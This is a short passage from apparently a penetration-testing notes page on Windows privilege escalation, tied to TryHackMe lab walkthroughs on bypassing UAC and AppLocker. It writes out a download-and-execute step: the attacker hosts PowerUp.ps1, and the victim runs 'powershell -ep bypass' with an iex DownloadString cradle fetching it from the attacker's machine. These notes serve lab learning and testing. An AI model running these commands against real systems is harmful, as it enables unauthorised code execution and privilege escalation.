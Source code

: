 ## Bypassing UAC

**Examples:**

[bypassing-uac.md](../../../../walkthroughs/tryhackme/bypassing-uac.md "mention")

## Bypassing Applocker

**Examples:**

[#bypassing-applocker](../../../../walkthroughs/tryhackme/corp.md#bypassing-applocker "mention")

Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption></figcaption></figure>
